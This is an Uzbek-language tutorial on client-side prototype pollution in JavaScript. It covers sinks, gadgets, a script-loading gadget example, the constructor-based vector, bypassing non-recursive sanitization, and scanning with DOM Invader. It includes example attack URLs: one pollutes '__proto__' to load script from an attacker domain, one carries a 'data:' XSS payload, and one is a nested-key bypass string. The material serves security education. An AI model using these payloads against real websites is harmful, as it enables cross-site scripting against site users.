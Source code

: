 Quyidagilarni o‘zbek tiliga tarjima qildim:

---

**Prototip ifloslanishi (prototype pollution) uchun sinklar**
Prototip ifloslanishi sinki — bu asosan JavaScript funksiyasi yoki DOM elementi bo‘lib, unga prototip ifloslanishi orqali kira olasiz va shu orqali istalgan JavaScript kodini yoki tizim komandalarini bajarishni ta’minlay olasiz. Client-side DOM XSS mavzusida ba’zi sinklarni batafsil ko‘rib chiqdik.

Prototip ifloslanishi orqali siz odatda kira olmaydigan xususiyatlarni nazorat qila olganingiz sababli, nishondagi ilovada qo‘shimcha sinklarga erishish imkoniyati paydo bo‘ladi. Prototip ifloslanishidan bexabar ishlab chiquvchilar bu xususiyatlar foydalanuvchi tomonidan boshqarilmaydi, deb hisoblab qolishlari mumkin — natijada filtr yoki sanitizatsiya minimal bo‘lishi ehtimoli yuqori bo‘ladi.

**Prototip ifloslanishi gadjetlari (prototype pollution gadgets)**
Gadget — bu prototip ifloslanishi zaifligini haqiqiy ekspluatatsiyaga aylantirish usuli. U quyidagi shartlarga javob berishi kerak:

* Ilova tomonidan xavfsiz bo‘lmagan tarzda ishlatilishi, masalan, uni sinkga to‘g‘ridan-to‘g‘ri filtrsiz yoki sanitizatsiyasiz uzatish.
* Prototip ifloslanishi orqali xaker tomonidan boshqarilishi mumkin bo‘lishi. Boshqacha qilib aytganda, ob’yekt prototipiga hujumchi tomonidan qo‘shilgan zararli xususiyatni meros qilib olishi kerak.

Agar xususiyat obyektning o‘zida to‘g‘ridan-to‘g‘ri aniqlangan bo‘lsa, u gadjet bo‘la olmaydi — chunki obyektning o‘zdagi xususiyati prototipdagi zararli versiyadan ustun turadi. Ba’zi ishonchli saytlar esa obyekt prototipini `null` ga o‘rnatib qo‘yadi, bu esa unga hech qanday prototip xususiyatlari meros qilib olinmasligini ta’minlaydi.

**Prototip ifloslanishi gadjeti misoli**
Ko‘plab JavaScript kutubxonalari ishlab chiquvchilarga turli konfiguratsiya parametrlarini belgilash uchun obyekt qabul qiladi. Kutubxona kodi agar ishlab chiquvchi bu obyektga ma’lum xususiyatlarni qo‘shgan bo‘lsa, ularga qarab sozlamalarni o‘zgartiradi. Agar ma’lum bir variantni ifodalovchi xususiyat mavjud bo‘lmasa, odatda belgilangan standart (default) qiymat ishlatiladi. Soddalashtirilgan misol:

```js
let transport_url = config.transport_url || defaults.transport_url;
```

Endi kutubxona kodi ushbu `transport_url` ni sahifaga script manbasi sifatida qo‘shish uchun ishlatadi deb tasavvur qiling:

```js
let script = document.createElement('script');
script.src = `${transport_url}/example.js`;
document.body.appendChild(script);
```

Agar sayt ishlab chiquvchilari `config` obyektida `transport_url` ni aniq belgilamagan bo‘lsa, bu potentsial gadjet hisoblanadi. Agar hujumchi global `Object.prototype` ni o‘zining `transport_url` xususiyati bilan ifloslantira olsa, `config` obyekt `transport_url` ni meros qilib oladi va script `src` manbai hujumchining nazoratidagi domenga o‘rnatiladi.

Agar prototip so‘rov parametri orqali ifloslanishi mumkin bo‘lsa, masalan, hujumchi qurilgan URL orqali jabrlanuvchini o‘sha manzilga yuborishi kifoya bo‘ladi:

```
https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net
```

Hujumchi `data:` URL taqdim etsa, XSS payloadni so‘rov qatorida to‘g‘ridan-to‘g‘ri joylashtirish ham mumkin:

```
https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//
```

Eslatma: ushbu misoldagi oxiridagi `//` — faqat koddagi qat’iy `/example.js` qo‘shilishini komment qilish uchun qo‘yilgan.

---

**DOM Invader yordamida mijoz tomonidagi (client-side) prototype pollution gadjetlarini topish**
Oldingi bosqichlardan ko‘rib turganingizdek, haqiqiy muhitda prototip ifloslanishi gadjetlarini qo‘l bilan aniqlash zerikarli va mehnat talab qiladigan ish bo‘lishi mumkin. Veb-saytlar ko‘pincha bir qancha uchinchi tomon kutubxonalariga tayanadi, shuning uchun minglab qatorli minimallashtirilgan yoki obfuskatsiyalangan kodni o‘rganishni talab qilishi mumkin — bu esa vaziyatni yana-da qiyinlashtiradi. DOM Invader siz uchun avtomatik tarzda gadjetlarni skanerlash imkonini beradi va ba’zi holatlarda DOM XSS zaifligini isbotlovchi proof-of-concept (PoC) ham yaratishi mumkin. Bu esa real dunyodagi saytlar ustida ekspluatlarni soatlab emas, soniyalar ichida topishingizga yordam beradi.


**Konstruktor orqali prototip ifloslanishi**

Hozirgacha biz faqatgina maxsus `__proto__` accessor property orqali prototip obyektlarga qanday murojaat qilish mumkinligini ko‘rib chiqdik. Bu klassik usul hisoblanganligi sababli, keng tarqalgan himoya chorasi sifatida foydalanuvchi tomonidan boshqariladigan obyektlarni birlashtirishdan oldin ularning `__proto__` kalitiga ega xususiyatlarini olib tashlash taklif qilinadi. Biroq bu yondashuv mukammal emas, chunki `Object.prototype` ga `__proto__` satridan foydalanmasdan ham murojaat qilishning boshqa usullari mavjud.

Agar uning prototipi `null` ga o‘rnatilmagan bo‘lsa, har bir JavaScript obyektida **constructor** xususiyati mavjud bo‘ladi. Bu xususiyat obyektni yaratishda ishlatilgan konstruktor funksiyasiga ishora qiladi. Masalan, siz yangi obyektni quyidagi ikki xil usulda yaratishingiz mumkin:

```javascript
let myObjectLiteral = {};
let myObject = new Object();
```

Shundan so‘ng, siz `Object()` konstruktoriga o‘rnatilgan **constructor** xususiyati orqali murojaat qilishingiz mumkin:

```javascript
myObjectLiteral.constructor            // function Object(){...}
myObject.constructor                   // function Object(){...}
```

Shuni yodda tutish kerakki, funksiyalar ham aslida obyekt hisoblanadi. Har bir konstruktor funksiyada **prototype** xususiyati bo‘ladi, u esa mazkur konstruktor yordamida yaratilgan obyektlarga biriktiriladigan prototipga ishora qiladi. Natijada, siz har qanday obyektning prototipiga quyidagicha murojaat qilishingiz mumkin:

```javascript
myObject.constructor.prototype        // Object.prototype
myString.constructor.prototype        // String.prototype
myArray.constructor.prototype         // Array.prototype
```

`myObject.constructor.prototype` aslida `myObject.__proto__` bilan bir xil bo‘lgani uchun, bu prototip ifloslanishining muqobil vektorini taqdim etadi.

**Noto‘g‘ri kalit sanitatsiyasini chetlab o‘tish**

Veb-saytlar prototip ifloslanishini oldini olish uchun odatda xususiyat kalitlarini birlashtirishdan (merge) oldin tozalash (sanitizatsiya) ga duch keladi. Biroq, keng tarqalgan xato — kiritilgan satrni rekursiv ravishda tozalamaslik. Masalan, quyidagi URLni olaylik:

```text
vulnerable-website.com/?__pro__proto__to__.gadget=payload
```

Agar sanitatsiya jarayoni faqat bir marotaba `__proto__` satrini olib tashlasa (yoki faqat oddiy qidiruv-o‘rinni almashtirish amalga oshirilsa), natijada quyidagi URL hosil bo‘ladi, va u potentsial ravishda haqiqiy prototip ifloslanishi manbai bo‘lishi mumkin:

```text
vulnerable-website.com/?__proto__.gadget=payload
```


Tashqi kutubxonalardagi prototip ifloslanishi
Avval aytib o‘tganimizdek, prototip ifloslanishi ilovaga import qilingan uchinchi tomon kutubxonalarida ham yuz berishi mumkin. Bunday holatda DOM Invader’ning prototip ifloslanishini aniqlash funksiyalaridan foydalanishni qat’iyan tavsiya qilamiz — bu nafaqat ancha tezroq, balki aks holda payqamagan bo‘lgan yoki juda murakkab bo‘lgan zaifliklarni ham aniqlashga yordam beradi.

